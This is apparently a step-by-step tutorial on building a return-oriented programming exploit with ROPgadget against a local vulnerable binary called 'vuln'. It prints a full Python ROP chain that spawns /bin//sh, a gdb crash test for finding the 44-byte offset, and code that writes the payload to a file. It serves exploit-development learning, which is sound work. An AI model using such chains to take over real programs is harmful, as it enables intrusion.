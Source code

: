 Lets say you have a binary called *vuln* and you want to create a rop based exploit using ROPGadget. This binary takes a file as input.

1. Run:

		./ROPgadget.py --binary vuln --ropchain > out-rop.txt

2. Open *out-rop.txt* (it will be a huge file, normally) and will contain lot of instructions (gadgets)
3. Scroll down to the end when you see:
	
		ROP chain generation
			=================================================
4. If ROPgadget finds a chain for you, you will see information below that point. Read the information for your understanding.
5. There should be a line starting with "Step 5 -- Build the ROP chain". Whatever is below that line, copy that into a separate file and name is as, for example, exploit.py. So the content of the expoit.py should be:

			\#!/usr/bin/env python2
			\# execve generated by ROPgadget
			from struct import pack
			\# Padding goes here
			p = ''
			p += pack('<I', 0x0806ee8b) # pop edx ; ret
			p += pack('<I', 0x080da060) # @ .data
			p += pack('<I', 0x080a8bf6) # pop eax ; ret
			p += '/bin'
			p += pack('<I', 0x08056d05) # mov dword ptr [edx], eax ; ret
			p += pack('<I', 0x0806ee8b) # pop edx ; ret
			p += pack('<I', 0x080da064) # @ .data + 4
			p += pack('<I', 0x080a8bf6) # pop eax ; ret
			p += '//sh'
			p += pack('<I', 0x08056d05) # mov dword ptr [edx], eax ; ret
			p += pack('<I', 0x0806ee8b) # pop edx ; ret
			p += pack('<I', 0x080da068) # @ .data + 8
			p += pack('<I', 0x080562c0) # xor eax, eax ; ret
			p += pack('<I', 0x08056d05) # mov dword ptr [edx], eax ; ret
			p += pack('<I', 0x080481c9) # pop ebx ; ret
			p += pack('<I', 0x080da060) # @ .data
			p += pack('<I', 0x0806eeb2) # pop ecx ; pop ebx ; ret
			p += pack('<I', 0x080da068) # @ .data + 8
			p += pack('<I', 0x080da060) # padding without overwrite ebx
			p += pack('<I', 0x0806ee8b) # pop edx ; ret
			p += pack('<I', 0x080da068) # @ .data + 8
			p += pack('<I', 0x080562c0) # xor eax, eax ; ret
			p += pack('<I', 0x0807c32a) # inc eax ; ret
			p += pack('<I', 0x0807c32a) # inc eax ; ret
			p += pack('<I', 0x0807c32a) # inc eax ; ret
			p += pack('<I', 0x0807c32a) # inc eax ; ret
			p += pack('<I', 0x0807c32a) # inc eax ; ret
			p += pack('<I', 0x0807c32a) # inc eax ; ret
			p += pack('<I', 0x0807c32a) # inc eax ; ret
			p += pack('<I', 0x0807c32a) # inc eax ; ret
			p += pack('<I', 0x0807c32a) # inc eax ; ret
			p += pack('<I', 0x0807c32a) # inc eax ; ret
			p += pack('<I', 0x0807c32a) # inc eax ; ret
			p += pack('<I', 0x08049603) # int 0x80
		
6. Now, create another text file test.txt with the following content:
						AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN

7. Run gdb vuln and when in gdb, r test.txt
8. you will see a sigsegv, leading to a crash with the msg: 

		Program received signal SIGSEGV, Segmentation fault.
		0x4c4c4c4c in ?? ()
9. If you notice 4c is ascii for L, which means 11x4=44 characters are needed to overwrite the saved return address on the stack (look at the test.txt contents LLLL offset is 45!).
10. Open exploit.py and edit the following line:

			# Padding goes here
			p = 'A'*44 # this is where we appended 44 characters.
			
11. Add the following lines at the end of exploit.py:

		fileName=raw_input("Enter the file name")
		outfile=open(fileName, "wb")
		outfile.write(p)
		outfile.close()
12. Now run python explot.py. It will ask for a file name: enter rop.bin
13. Finally run:

			vuln rop.bin
		
14. If everything goes fine, you will see a different command-prompt. Done!
